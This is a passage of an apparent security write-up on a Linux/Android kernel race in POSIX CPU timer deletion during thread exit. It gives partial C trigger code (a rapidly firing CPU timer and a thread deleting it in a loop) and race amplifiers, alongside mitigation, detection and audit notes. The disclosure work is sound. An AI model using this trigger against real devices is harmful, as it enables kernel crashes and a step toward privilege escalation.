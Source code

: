 ```c
static timer_t t;
static void setup_cpu_timer(void) {
    struct sigevent sev = {0};
    sev.sigev_notify = SIGEV_SIGNAL;    // delivery type not critical for the race
    sev.sigev_signo = SIGUSR1;
    if (timer_create(CLOCK_THREAD_CPUTIME_ID, &sev, &t)) perror("timer_create");
    struct itimerspec its = {0};
    its.it_value.tv_nsec = 1;           // fire ASAP
    its.it_interval.tv_nsec = 1;        // re-fire
    if (timer_settime(t, 0, &its, NULL)) perror("timer_settime");
}
```

- From a sibling thread, concurrently delete the same timer while the target thread exits:

```c
void *deleter(void *arg) {
    for (;;) (void)timer_delete(t);     // hammer delete in a loop
}
```

- Race amplifiers: high scheduler tick rate, CPU load, repeated thread exit/re-create cycles. The crash typically manifests when posix_cpu_timer_del() skips noticing firing due to failing task lookup/locking right after unlock_task_sighand().

Detection and hardening
- Mitigation: apply the exit_state guard; prefer enabling CONFIG_POSIX_CPU_TIMERS_TASK_WORK when feasible.
- Observability: add tracepoints/WARN_ONCE around unlock_task_sighand()/posix_cpu_timer_del(); alert when it.cpu.firing==1 is observed together with failed cpu_timer_task_rcu()/lock_task_sighand(); watch for timerqueue inconsistencies around task exit.

Audit hotspots (for reviewers)
- update_process_times() → run_posix_cpu_timers() (IRQ)
- __run_posix_cpu_timers() selection (TASK_WORK vs IRQ path)
- collect_timerqueue(): sets ctmr->firing and moves nodes
- handle_posix_cpu_timers(): drops sighand before firing loop
- posix_cpu_timer_del(): relies on it.cpu.firing to detect in-flight expiry; this check is skipped when task lookup/lock fails during exit/reap

Notes for exploitation research
- The disclosed behavior is a reliable kernel crash primitive; turning it into privilege escalation typically needs an additional controllable overlap (object lifetime or write-what-where influence) beyond the scope of this summary. Treat any PoC as potentially destabilizing and run only in emulators/VMs.

## References
- [Race Against Time in the Kernel’s Clockwork (StreyPaws)](https://streypaws.github.io/posts/Race-Against-Time-in-the-Kernel-Clockwork/)
- [Android security bulletin – September 2025](https://source.android.com/docs/security/bulletin/2025-09-01)
- [Android common kernel patch commit 157f357d50b5…](https://android.googlesource.com/kernel/common/+/157f357d50b5038e5eaad0b2b438f923ac40afeb%5E%21/#F0)

